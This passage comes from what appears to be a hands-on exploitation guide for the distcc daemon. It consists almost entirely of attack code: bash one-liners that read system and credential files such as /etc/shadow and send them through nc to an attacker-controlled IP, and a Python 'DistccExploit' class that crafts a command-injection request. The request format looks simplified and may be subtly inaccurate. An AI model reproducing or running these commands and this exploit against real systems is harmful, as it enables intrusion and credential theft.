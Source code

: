 #### Data Exfiltration Commands
```bash
# System information gathering
python3 exploit.py <target-ip> 'id > /tmp/distcc_info.txt'
python3 exploit.py <target-ip> 'uname -a >> /tmp/distcc_info.txt'
python3 exploit.py <target-ip> 'cat /etc/passwd >> /tmp/distcc_info.txt'

# File exfiltration
python3 exploit.py <target-ip> 'cat /etc/shadow | base64 | nc <your-ip> 9999'
python3 exploit.py <target-ip> 'tar czf - /etc /home | nc <your-ip> 8888'
```

### Method 4: Scripted Automation

#### Comprehensive Exploitation Script
```python
#!/usr/bin/env python3
import socket
import sys
import time
import threading

class DistccExploit:
    def __init__(self, target_ip, target_port=3632):
        self.target_ip = target_ip
        self.target_port = target_port
        
    def send_command(self, command):
        """Send command via distcc vulnerability"""
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(10)
            sock.connect((self.target_ip, self.target_port))
            
            # Send protocol initialization
            sock.send(b"DIST 1\n")
            response = sock.recv(1024)
            
            if b"DIST" not in response:
                print("[-] Invalid distcc response")
                return False
            
            # Craft malicious request
            request = (
                "ARGC 6\n"
                "ARGV0 sh\n" 
                "ARGV1 -c\n"
                f"ARGV2 {command}\n"
                "ARGV3 #\n"
                "ARGV4 -c\n"
                "ARGV5 main.c\n"
                "DOTI\n"
                "int main(){return 0;}\n"
                "DONE\n"
            )
            
            sock.send(request.encode())
            response = sock.recv(1024)
            
            sock.close()
            return True
            
        except Exception as e:
            print(f"[-] Exploitation failed: {e}")
```